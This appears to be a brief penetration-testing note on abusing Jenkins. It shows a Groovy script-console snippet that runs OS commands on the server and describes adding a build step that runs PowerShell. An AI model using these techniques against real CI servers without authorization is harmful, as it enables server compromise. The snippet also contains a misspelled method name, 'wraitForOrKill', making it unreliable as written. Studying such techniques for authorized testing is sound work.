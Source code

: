 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

- In-house developed tools that are running in enterprise network can be abused as they are not made with security in mind.
- Eg: CI tools such as jenkins
# Jenkins
- Tools used for continuous integration (CI).
- If we have administrative access in Jenkins we can use the script console to run commands on the server.
- The script is written in Groovy script.
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'uname -a'.execute()
proc.consumeProcessOutput(sout,serr)
proc.wraitForOrKill(1000)
println "out > $sout err> $serr"
```
- If we don't have administrative access but have access to a user that can add or edit build steps in the build configuration, we can add a build step to run windows command.
- Configure -> Add build steps -> add "Execute Windows Batch Command" -> powershell -c "Get-ChildItem"


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
